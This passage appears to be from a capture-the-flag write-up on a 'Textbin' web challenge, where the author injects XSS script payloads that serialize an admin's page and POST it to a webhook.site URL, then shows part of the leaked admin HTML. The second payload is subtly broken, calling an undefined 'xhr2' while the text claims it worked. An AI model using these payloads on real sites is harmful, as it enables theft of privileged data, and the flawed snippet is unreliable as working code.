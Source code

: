 ### Looking at the admin console

On the main webpage, there is a comment saying that at this place there is an admin console (but of course, as I am not an admin, I cannot see it).

Therefore instead of leaking the admin cookies, I will print its page. Let's try it:

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://webhook.site/5d002a10-23f5-4946-a997-3cac4c81d807", true);
var text = new XMLSerializer().serializeToString(document);
xhr.send(JSON.stringify({
    "a": text
}));
</script>
```

Sadly I can't see the admin panel... After thinking a lot about it I understood why: the script is executed before the page has finished to be loaded, therefore I only receive an incomplete page! So let's try to wait for the page to be loaded:

```html
<script>
window['onload'] = function() {
    var xhr = new XMLHttpRequest();
    var text = new XMLSerializer().serializeToString(document);
    xhr.open('POST', 'https://webhook.site/5d002a10-23f5-4946-a997-3cac4c81d807', true);

    xhr2.send(JSON.stringify({
        'a': text
    }));
};
</script>
```

Yes now I receive the console:

```html
<body>
    <nav class="navbar navbar-expand-lg navbar-light bg-light">
        <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
                    <span class="navbar-toggler-icon"></span>
        </button>

        <div class="collapse navbar-collapse" id="navbarNav">
            <ul class="navbar-nav">
                <li class="nav-item active">
                    <a class="nav-link" href="/">Home<span class="sr-only">(current)</span></a>
                </li>
            </ul>
        </div>
    </nav>

    <div class="container">
        <div class="row">
            <div class="col-12">
                <h1>Textbin</h1>
            </div>
        </div>

        <div class="row">

            <div class="col-8 textbody">
                <script>
                    window['onload'] = function() {
```